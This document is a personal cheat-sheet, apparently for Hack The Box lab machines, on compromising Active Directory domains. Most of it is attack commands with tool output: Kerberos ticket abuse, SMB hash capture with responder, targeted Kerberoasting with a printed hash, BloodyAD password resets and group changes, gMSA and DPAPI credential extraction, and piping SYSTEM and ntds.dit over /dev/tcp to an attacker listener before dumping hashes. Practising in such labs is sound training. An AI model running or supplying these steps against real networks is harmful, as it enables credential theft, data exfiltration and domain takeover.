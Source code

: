 I made this to work 10x faster on  [Active Directory](../../3%20-%20Tags/Hacking%20Concepts/Active%20Directory.md) boxes.
## Interesting ports from scan

```bash
53: DNS Most of the time not the way in, maybe enum   
88: Kerberos - Maybe Kerbrute but not much to go into
135/139/445: 'SMB'  Always interesting !!
3389: RDP  Always stands out, worth checking
```

Add domain name from nmap to `/etc/hosts`
## Ticket Requests

If gives you password but don't work:
```bash
└─$ impacket-getTGT machine.htb/'user,name':'passwd'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in user.name.ccache

$ export KRB5CCNAME=/home/mdn0x/HTB/Machines/Machine/user/tickets/user.name.ccache   # IMPORTANT

$ nxc ldap machine.htb -u user.name -p passwd -k
LDAP        machine.htb      389    DC               [*] None (name:DC) (domain:machine.htb)
LDAP        machine.htb      389    DC               [+] machine.htb\user.name:passwd  
```

Now collect with [Bloodhound](../../3%20-%20Tags/Hacking%20Tools/Bloodhound.md).
## SMB (135,139,445) Enumeration

Can i find creds, write, steal with links?

Anonymous access? `netexec` or [SMBclient](../../3%20-%20Tags/Hacking%20Tools/SMBclient.md) or [SMBmap](../../3%20-%20Tags/Hacking%20Tools/SMBmap.md) 

```bash
smbclient -L \\\\domain.name\\

smbclient -L \\\\domain.name\\ -U user # If you have creds
```

OR
```bash
netexec smb dc.domain.htb -u user.name -p 'passwd' -k --shares --smb-timeout 500   # -k is for ticket usage

impacket-smbclient -k dc.machine.htb # To connect usage: shares, use share, ls, cd, get  
```

if list the shares then yes. Can connect?

```bash
smbclient \\\\domain.name\\Share # -U user -p passwd
```

If can write steal creds with `responder`

To steal use https://github.com/overgrowncarrot1/SMBKiller

```bash
python3 SMB_Killer.py -r Victim_IP -l MY_IP -d domain.name -i tun0 -a Share -U 'blankforanon' -p passwd?    
```

The tool starts an automatic responder instance to capture the hashes.

Crack with [JohnTheRipper](../../3%20-%20Tags/Hacking%20Tools/JohnTheRipper.md) or [Hashcat](../../3%20-%20Tags/Hacking%20Tools/Hashcat.md)

Verify user:

```bash
nxc smb domain.name -u 'user.name' -p 'passwd' --shares
```

## Bloodhound

Collect with [Bloodhound](../../3%20-%20Tags/Hacking%20Tools/Bloodhound.md):

```bash
 bloodhound-python -u 'user' -p 'passwd' -d domain.htb -ns 10.10.11.xx -c All --zip # -p or --hashes
```

Checks
```bash
'OUTBOUND OBJECT CONTROL'
'GROUPS' # like RemoteManager (WinRM)
```

Stands out
```bash
GenericAll: changepasswd and ownaccount # You can do everything with GA - BloodyAD
WriteSPN: can create a fake `SPN` of `user2` and get and hash to crack ## TargetedKerberoast tool
AddSelf: Add user to group # BloodyAD tool
ReadGMSAPassword: Reads any gMSA password blobs the user can access # GMSADumper tool
ForceChangePassword: modify directly # BloodyAD
WriteOwner: Change password # Impacket-owneredit then BloodyAD
```

## Evil-WinRM

```bash
evil-winrm -u 'user.name' -p 'passwd' -i dc.machine.htb # -H for hashes

evil-winrm -i dc.domain.htb -k userticket.ccache -r REALM.htb  # with ticket auth, add REALM in krb5 config if needed
```

## TargetedKerberoast


**WriteSPN**
```bash
┌──(.venv)─(mdn0x㉿mdn0xKali)-[~/…/Machines/TombWatcher/user/targetedKerberoast]
└─$ python3 targetedKerberoast.py -v -d domain.htb -u user -p 'passwd'
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (user2)
[+] Printing hash for (user2)
$krb5tgs$23$*user2$DOMAIN.HTB$machine.htb/User2*$0e83983aba480c3219b96987f20b128e$f66d93f0d55de1da3610267d601fe46a3eed827e3348ff764eca454ff3067429352018f988e71b0bca4636df36765f69664d77acdd4080b34d70ead2abbd2f52bb82054cd69f7f75475ee9beb93b06d036d6b24c8ace08ce04aac9cba49a6b8311fa66eb35ed80222cd23fc328ba489d2d9e83c47f9d0d1982b<SNIP>
[VERBOSE] SPN removed successfully for (Alfred)
```

## BloodyAD

**AddSelf**
```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/TombWatcher/user]
└─$ bloodyAD --host '10.10.11.xx' -d 'domain.htb' -u user -p 'passwd' add groupMember GROUP alfred
[+] user added to GROUP
```


**ForceChangePassword - GenericAll**
```bash
└─$ bloodyAD --host '10.10.11.xx' -d 'domain.htb' -u 'user' -p 'passwd' set password USER2 'Hacker123!' # hash with -p also
[+] Password changed successfully!
```

## GMSADumper

**ReadGMSAPasswords**
```bash
└─$ python gMSADumper.py -u user -p passwd -d domain.htb 
```

This give you an usable hash like this`:4f46405647993c7d4e1dc1c25dd6ecf4` 
## Write Owner

First we use `impacket-owneredit` to make `USER` owner of `USER2`:

```bash
└─$ impacket-owneredit -action write -target 'user2' -new-owner 'user' 'machine.htb/user':'Hacker123!' -dc-ip 10.10.11.xx
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Current owner information below
[*] - SID: S-1-5-21-1392491010-1358638721-2126982587-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=DCname,DC=htb
[*] OwnerSid modified successfully!
```

Now we can change his password with `bloodyAD`. First add `GenericAll`:

```bash
─$ bloodyAD --host 10.10.11.xx -d machine.htb -u 'user' -p 'Hacker123!' add genericAll user2 user
[+] user has now GenericAll on user2
```

Now change password.

## DPAPI

If you can find `dpapi` encrypted data and keys:

``` bash
- get /../../../AppData/Roaming/Microsoft/Protect/S-1-5-21-3927696377-1337352550-2781715495-1110/08949382-134f-4c63-b93c-ce52efc0aa88

- get /../../../AppData/Roaming/Microsoft/Credentials/772275FAD58525253490A9B0039791D3
```
### Cracking

crack the key:
```bash
impacket-dpapi masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -sid S-1-5-21-3927696377-1337352550-2781715495-1110 -password Password
```

Crack creds
```bash
impacket-dpapi credential -file 772275FAD58525253490A9B0039791D3 -key keyfrommasterkey
```

## Secrets Dump 

If you can find the `SYSTEM` and `NTDS` files grab them, possibly with a listener:

```bash
$ nc -lvnp 4444 > SYSTEM

cat SYSTEM  > /dev/tcp/10.10.xx.xx/4444 # on Target

$ nc -lvnp 4444 > ntds.dit

cat ntds.dit > /dev/tcp/10.10.xx.xx/4444 # on Target
```
### Cracking

Use `Impacket` function to crack the hashes:

```bash
$ impacket-secretsdump -ntds ntds.dit -system SYSTEM local 
```

Request a ticket then use [Evil-WinRM](../../3%20-%20Tags/Hacking%20Tools/Evil-WinRM.md) with `-k` flag.